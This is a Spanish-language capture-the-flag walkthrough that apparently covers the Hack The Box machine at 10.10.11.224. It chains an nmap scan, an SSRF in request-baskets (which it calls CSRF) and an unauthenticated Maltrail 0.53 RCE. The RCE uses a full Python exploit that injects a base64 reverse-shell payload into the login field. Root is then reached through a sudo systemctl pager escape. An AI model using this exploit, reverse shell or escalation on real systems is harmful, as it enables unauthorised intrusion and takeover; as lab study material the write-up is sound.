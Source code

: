 


# PortScan
```
 nmap -p- --min-rate 5000 -vvv -Pn -n -sS 10.10.11.224 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-28 16:48 AST
Initiating SYN Stealth Scan at 16:48
Scanning 10.10.11.224 [65535 ports]
Discovered open port 22/tcp on 10.10.11.224
Discovered open port 55555/tcp on 10.10.11.224
Completed SYN Stealth Scan at 16:48, 14.11s elapsed (65535 total ports)
Nmap scan report for 10.10.11.224
Host is up, received user-set (0.070s latency).
Scanned at 2023-10-28 16:48:01 AST for 14s
Not shown: 65531 closed tcp ports (reset)
PORT      STATE    SERVICE REASON
22/tcp    open     ssh     syn-ack ttl 63
80/tcp    filtered http    no-response
8338/tcp  filtered unknown no-response
55555/tcp open     unknown syn-ack ttl 63
```

# Sitio Web

![[Pasted image 20231028164933.png]]


Sí indagamos un poco en busca de vulnerabilidades, encontraremos qué esta versión de "**request-baskets**" es vulnerable a un (**CSRF**), [(CVE-2023–27163)](https://medium.com/@li_allouche/request-baskets-1-2-1-server-side-request-forgery-cve-2023-27163-2bab94f201f7), de manera qué podríamos aprovecharnos de esta vulnerabilidad para descubrir qué hay en el ":80" qué nos apareció como "filtered"


![[Pasted image 20231028165410.png]]


Debemos tener todas las check's seleccionados, y en la URL indicar el localhost y que apunte al **:80**, esto para qué la misma máquina host apunte a su puerto & pueda visualizar que servicio corre en este puerto, probablemente un HTTP, ya qué exteriormente a lo mejor por reglas de "firewall" no podamos visualizar.


![[Pasted image 20231028165642.png]]


Podemos ver que en el **":80"** está corriendo un **Mailtrail** con versión **0.53**, sí indagamos en busca de vulnerabilidades para este este aplicativo encontraremos qué podemos llevar a cabo un **RCE**, como sé explica en [éste artículo](https://securitylit.medium.com/exploiting-maltrail-v0-53-unauthenticated-remote-code-execution-rce-66d0666c18c5), y sí indagamos más encontraremos exploit para aprovecharnos de esta vulnerabilidad para otorgarnos una Reverse Shell, un script montado en python, a continuación se dejará el script utilizado.
```python
```py
import sys;
import os;
import base64;

def main():
	listening_IP = None
	listening_PORT = None
	target_URL = None

	if len(sys.argv) != 4:
		print("Error. Needs listening IP, PORT and target URL.")
		return(-1)
	
	listening_IP = sys.argv[1]
	listening_PORT = sys.argv[2]
	target_URL = sys.argv[3] + "/login"
	print("Running exploit on " + str(target_URL))
	curl_cmd(listening_IP, listening_PORT, target_URL)

def curl_cmd(my_ip, my_port, target_url):
	payload = f'python3 -c \'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{my_ip}",{my_port}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")\''
	encoded_payload = base64.b64encode(payload.encode()).decode()  # encode the payload in Base64
	command = f"curl '{target_url}' --data 'username=;`echo+\"{encoded_payload}\"+|+base64+-d+|+sh`'"
	os.system(command)

if __name__ == "__main__":
  main()
```


Antes de llevar a cabo el script, nos ponemos en escucha con "netcat".
```
nc -nlvp 443
```

Para posterior a esto ejecutar el script con los parámetros indicados.
```
python3 exploit.py 10.10.14.116 443 http://10.10.11.224:55555/733up1m
```

Esto puede llevar un poco de tiempo, pero al cabo de un rato nos otorgará una reverse shell.


![[Pasted image 20231028170555.png]]


# Escalada de Privilegios

Sí nos fijamos en nuestro permisos sudoers con:
```
sudo -l
```


![[Pasted image 20231028170807.png]]

Veremos qué podemos ejecutar el binario **"systemctl status trail.service"** como todos los usuarios y sin proporcionar contraseñas, por ende podemos aprovecharnos de esto para ejecutar con sudo este binario & como está configurado no nos pedirá la credenciales del usuario actual, por lo qué tan sólo debemos poner el "sudo" delante del binario, es decir esto:

```
sudo systemctl status trail.service
```

Nos abrirá el binario como **Root**, y para aprovecharnos de esto debemos hacer como cuando usamos **vim** que nos abrimos el apartado para guardar, quitar, etcera, es decir "q" o "w", pero en vez de esto llamaremos una **tty**, ya sea una bash, sh o cualquiera otra, pero para esto debemos poner un signo de admiración hacia abajo y luego llamar la consola, como veremos a contiuación

![[Pasted image 20231028171134.png]]


Posterior a ello obtendremos la tty indicada pero como Root.


![[Pasted image 20231028171815.png]]